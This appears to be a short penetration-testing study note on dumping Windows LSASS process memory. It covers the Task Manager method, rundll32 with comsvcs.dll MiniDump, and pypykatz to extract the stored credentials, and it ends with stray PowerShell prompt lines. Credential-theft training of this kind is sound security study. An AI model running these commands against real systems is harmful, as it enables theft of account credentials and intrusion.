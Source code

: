 ### <mark class="hltr-orange">Dumping LSASS Process Memory</mark>

#### <mark class="hltr-grey">Task Manager Method</mark>

![[Pasted image 20240827184933.png]]

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

A file called `lsass.DMP` is created and saved in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

#### <mark class="hltr-grey">Rundll32.exe & Comsvcs.dll Method</mark>

The Task Manager method is dependent on us having a GUI-based interactive session with a target. We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.
It is important to note that modern anti-virus tools recognize this method as malicious activity.


We have to find the PID of lsass.exe:
CMD:
```
tasklist /svc
```
Or
Powershell:
```
Get-Process lsass
```

Now that we have the PID of lsass.exe we can create the dump file.
With an <mark class="hltr-green">elevated PowerShell session</mark>, we can issue the following command to create the dump file:

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump (lsass' PID) C:\lsass.dmp full
```

### <mark class="hltr-orange">Using pypykatz to extract Credentials</mark>

The command initiates the use of `pypykatz` to parse the secrets hidden in the LSASS process memory dump. We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file (`/home/dali/Documents/lsass.dmp`) stored on our attack host. Pypykatz parses the dump file and outputs the findings:

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>